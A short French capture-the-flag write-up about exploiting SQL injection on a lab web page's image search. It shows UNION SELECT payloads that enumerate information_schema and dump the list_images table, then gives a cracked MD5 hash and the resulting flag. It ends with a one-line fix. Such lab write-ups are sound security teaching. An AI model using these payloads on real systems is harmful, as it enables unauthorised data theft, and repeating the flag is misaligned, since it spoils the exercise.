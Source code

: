 sur http://192.168.99.102/?page=searchimg

Nous savons déjà comment lister les colonnes et les tables de la db:

```sql
1 AND 1=2 UNION ALL SELECT table_name, column_name FROM information_schema.columns
```


un petit <kbd>CMD</kbd>+<kbd>F</kbd> d'image nous indique directement que la table à exploité est `list_images`:

dans la table list_images nous avons:
id
url
title
comment

la colonne `comment` etait un bon point de depart sur l'autre faille:

testons alors d'afficher les comment et le title:

```sql
1 AND 1 = 2 UNION ALL SELECT title, comment FROM list_images
```


```
"If you read this just use this md5 decode lowercase then sha256 to win this flag !"
```

```
1928e8083cf461a51303633093573c46 -> albatroz 
sha256 => f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```


### Amelioration

Gerer les sqli, protegers les strings envoyer en request.